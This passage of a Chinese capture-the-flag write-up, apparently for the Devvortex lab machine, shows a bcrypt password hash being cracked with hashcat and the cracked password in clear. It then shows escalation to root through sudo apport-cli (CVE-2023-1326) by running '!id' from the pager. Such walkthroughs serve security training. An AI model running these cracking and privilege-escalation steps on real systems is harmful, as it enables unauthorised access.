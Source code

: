 
   

2. 在数据库中发现了logan用户的密码哈希，利用hashcat破解该哈希

   首先识别一下哈希格式，Blowfish和bcrypt对应的哈希模式是3200

   ```
   └─# hashid hash.txt 
   --File 'hash.txt'--
   Analyzing '$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12'
   [+] Blowfish(OpenBSD) 
   [+] Woltlab Burning Board 4.x 
   [+] bcrypt 
   --End of file 'hash.txt'-- 
   ```

   

   尝试破解

   ```
   └─# hashcat -m 3200 hash.txt /usr/share/wordlists/rockyou.txt
   
   $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12:tequieromucho
   ```

   

3. 使用该密码切换到logan，发现该用户可以sudo执行/usr/bin/apport-cli

   ```
   logan@devvortex:~$ sudo -l
   [sudo] password for logan: 
   Matching Defaults entries for logan on devvortex:
       env_reset, mail_badpass,
       secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
   
   User logan may run the following commands on devvortex:
       (ALL : ALL) /usr/bin/apport-cli
   ```



## 3.3 [CVE-2023-1326](https://github.com/advisories/GHSA-qgrc-7333-5cgx)

​	google搜索sudo apport-cli发现了[CVE-2023-1326](https://github.com/advisories/GHSA-qgrc-7333-5cgx)，apport-cli 2.26.0 及更早版本中发现了类似于 CVE-2023-26604 的权限升级攻击。如果系统被专门配置为允许非特权用户运行 sudo apport-cli，则 less 配置为寻呼机，并且可以设置终端大小：本地攻击者可以提升权限。系统管理员极不可能配置 sudo 来允许非特权用户执行此类攻击。



验证poc来自于[这里](https://github.com/canonical/apport/commit/e5f78cc89f1f5888b6a56b785dddcb0364c48ecb)

```
$ sudo apport-cli -c /var/crash/xxx.crash
[...]
Please choose (S/E/V/K/I/C): v
!id
uid=0(root) gid=0(root) groups=0(root)
```
